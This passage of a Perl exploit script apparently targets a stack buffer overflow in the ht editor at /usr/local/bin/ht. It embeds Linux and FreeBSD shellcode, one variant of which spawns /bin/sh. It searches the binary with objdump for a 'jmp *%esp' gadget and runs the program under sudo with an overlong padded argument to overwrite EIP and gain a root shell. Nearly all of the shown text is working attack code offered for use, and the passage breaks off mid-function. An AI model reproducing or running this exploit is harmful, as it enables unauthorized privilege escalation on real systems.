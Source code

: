 ```pl
The vulnerability is triggered by a too large argument (+ path) which simply lets you overwrite eip.


=head2 AUTHOR

ZadYree ~ 3LRVS Team


=head3 SEE ALSO

ZadYree's blog: z4d.tuxfamily.org

3LRVS blog: 3lrvs.tuxfamily.org

Shellcodes based on
http://www.shell-storm.org/shellcode/files/shellcode-606.php
http://www.shell-storm.org/shellcode/files/shellcode-171.php

=> Thanks
=cut
#use 5.010;

my ($esp, $retaddr);
my $scz = 	["\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e" .
		"\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8" .
		"\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67" .
		"\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30" .
		"\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4" .
		"\x53\x52\x54\x8a\xe2\xce\x81",
		"\xeb\x17\x5b\x31\xc0\x88\x43\x07\x89\x5b" .
		"\x08\x89\x43\x0c\x50\x8d\x53\x08\x52\x53" .
		"\xb0\x3b\x50\xcd\x80\xe8\xe4\xff\xff\xff" .
		"/bin/sh"	];

print '[*]Looking for $esp and endwin()...';

my $namez = [qw#/usr/local/bin/ht /usr/local/bin/ht#];

my $infos = get_infos(qx{uname});

my $name = $infos->[0];


print '[+]endwin() address found! (0x', $infos->[3],')';

for my $line(qx{objdump -D $name | grep "ff e4"}) {
	$esp = "0" . $1, last if ($line =~ m{([a-f0-9]{7}).+jmp\s{4}\*%esp});
}

print '[+]$esp place found! (0x', $esp, ")\012Now exploiting...";

my @payload = ("sudo", $infos->[0], ("A" x ($infos->[1] - length(qx{pwd}))) . reverse(pack('H*', $infos->[3])) . reverse(pack('H*', $esp)) . $infos->[2]);
exec(@payload);


sub get_infos {
	if ($_[0] =~ /Linux/) {
		return([$namez->[0], 4108, $scz->[0], getendwin("linux")]);
	}
	elsif ($_[0] =~ /FreeBSD/) {
		return([$namez->[1], 271, $scz->[1], getendwin("freebsd")]);
```